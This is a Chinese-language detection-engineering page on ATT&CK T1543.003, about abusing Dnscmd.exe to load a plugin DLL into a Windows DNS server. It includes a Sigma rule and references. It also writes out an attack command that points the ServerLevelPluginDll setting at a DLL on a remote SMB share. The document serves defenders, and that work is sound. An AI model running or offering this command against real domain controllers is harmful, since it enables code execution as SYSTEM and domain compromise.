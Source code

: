 # T1543-003-windows服务-Dnscmd.exe(白名单)

## 来自ATT&CK描述

作为持久性的一部分，攻击者可能会创建或修改Windows服务以重复执行恶意负载。当Windows启动时，它会启动程序或称为服务的应用程序来执行后台系统功能。Windows服务配置信息，包括服务的可执行文件或恢复程序/命令的文件路径，存储在 Windows 注册表中。可以使用sc.exe和Reg等实用程序修改服务配置。

攻击者可以通过使用系统实用程序与服务交互、直接修改注册表或使用自定义工具与Windows API交互来安装新服务或修改现有服务。攻击者可能会将服务配置为在启动时执行，以便在系统上建立持久性。

攻击者还可以通过使用来自相关操作系统或良性软件的服务名称或通过修改现有服务来结合伪装，使检测分析更具挑战性。修改现有服务可能会中断其功能或启用已禁用或不常用的服务。

可以使用管理员权限创建服务，但需要在SYSTEM权限下执行，因此攻击者也可以使用服务将权限从管理员提升到 SYSTEM。攻击者也可以通过服务执行直接启动服务。

## 测试案例

Dnscmd.exe用于管理DNS服务器的命令行界面。此实用程序可用于编写批处理文件脚本以帮助自动化日常DNS管理任务，或在网络上执行简单的无人值守设置和配置新DNS服务器。

路径：

```yml
-   C:\Windows\System32\Dnscmd.exe
-   C:\Windows\SysWOW64\Dnscmd.exe
```

添加特制DLL作为DNS服务的插件。 此命令必须由至少是DnsAdmins组成员的用户在DC上运行。更多使用方法请参看[微软官方说明](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd)。

```bash
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
```

用例：远程向dns服务器注入dll
所需权限：DNS管理员
操作系统：Windows服务器

## 检测日志

Windows 安全日志

## 测试复现

无

## 测试留痕

无

## 检测规则/思路

这里参看Sigma官方规则：

```yml
title: DNS ServerLevelPluginDll Install

id: f63b56ee-3f79-4b8a-97fb-5c48007e8573

related:

- id: e61e8a88-59a9-451c-874e-70fcc9740d67

type: derived

status: experimental

description: Detects the installation of a plugin DLL via ServerLevelPluginDll parameter in Registry, which can be used to execute code in context of the DNS server

(restart required)

references:

- https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83

date: 2017/05/08

modified: 2021/09/12

author: Florian Roth

tags:

- attack.defense_evasion

- attack.t1073 # an old one

- attack.t1574.002

- attack.t1112

logsource:

category: process_creation

product: windows

detection:

dnsadmin:

Image|endswith: '\dnscmd.exe'

CommandLine|contains|all:

- '/config'

- '/serverlevelplugindll'

condition: dnsadmin

falsepositives:

- unknown

level: high

fields:

- EventID

- CommandLine

- ParentCommandLine

- Image

- User

- TargetObject
```

## 参考推荐

MITRE-ATT&CK-T1543-003

<https://attack.mitre.org/techniques/T1543/003>

Dnscmd.exe

<https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/>

Sigma:process_creation_dns_serverlevelplugindll

<https://github.com/SigmaHQ/sigma/blob/b08b3e2b0d5111c637dbede1381b07cb79f8c2eb/rules/windows/process_creation/process_creation_dns_serverlevelplugindll.yml>
